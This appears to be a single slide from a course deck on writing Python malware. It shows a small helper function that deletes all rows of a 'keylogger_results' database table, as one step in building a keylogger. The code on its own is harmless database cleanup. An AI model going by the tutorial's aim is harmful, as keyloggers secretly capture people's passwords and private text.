

Python Malwares (cont.)
Writing a Keylogger (cont.)
Next, we will write a function that will delete all the rows of the keylogger result table (in case we need to):
def delete_keylogs(conn):
    try:
        c = conn.cursor()
        deleted_rows_count = c.execute("DELETE FROM keylogger_results").rowcount
        conn.commit()
        return deleted_rows_count
    except Exception as e:
        print(e)
144